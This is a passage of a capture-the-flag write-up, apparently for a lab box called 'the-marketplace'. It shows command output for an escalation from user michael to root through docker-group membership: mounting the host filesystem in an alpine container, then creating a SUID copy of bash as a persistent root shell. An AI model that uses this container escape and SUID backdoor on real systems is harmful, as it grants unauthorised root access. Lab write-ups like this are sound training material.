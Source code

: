 ```
the-marketplace
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:bf:a1:53:5e:5f brd ff:ff:ff:ff:ff:ff
    inet 10.10.102.127/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2251sec preferred_lft 2251sec
    inet6 fe80::bf:a1ff:fe53:5e5f/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

And we're `michael`!

## michael to root

In the above `id`'s output, we can see that michael is inside the `docker` group, which means we can escalate to root by spawning a insecure docker container!

```
michael@the-marketplace:/opt/backups$ docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        24 months ago       2.16GB
nginx                        latest              4bb46517cac3        2 years ago         133MB
node                         lts-buster          9c4cc2688584        2 years ago         886MB
mysql                        latest              0d64f46acfd1        2 years ago         544MB
alpine                       latest              a24bb4013296        2 years ago         5.57MB
```

To do so, I'll:

1. Spawn a `root` shell in one of those containers:

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
[...]
root@82c36fdf20ef:/# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
82c36fdf20ef
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
[...]
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

We're root **inside the container.**

2. Copy `/bin/bash` to `/opt/backups`, and add SUID set bit to the copied `bash`:

```
root@82c36fdf20ef:/# cp /bin/bash /opt/backups/root_bash

root@82c36fdf20ef:/# chmod +s /opt/backups/root_bash

root@82c36fdf20ef:/# ls -lah /opt/backups/root_bash
-rwsr-sr-x 1 root root 1.1M Aug 30 11:26 /opt/backups/root_bash
```
